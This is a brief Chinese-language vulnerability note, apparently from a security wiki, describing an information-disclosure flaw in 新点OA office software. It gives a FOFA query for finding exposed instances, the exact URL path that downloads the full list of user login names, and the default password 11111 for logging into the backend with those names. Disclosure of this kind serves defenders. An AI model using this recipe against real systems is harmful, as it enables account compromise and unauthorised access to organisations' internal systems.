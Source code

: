 # 新点OA 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

> [!NOTE]
>
> 新点OA

## FOFA

> [!NOTE]
>
> app="新点OA"

## 漏洞复现

构造的Url为

```
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![](http://wikioss.peiqi.tech/vuln/xd-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

通过获取的登录名登陆后台(默认密码11111)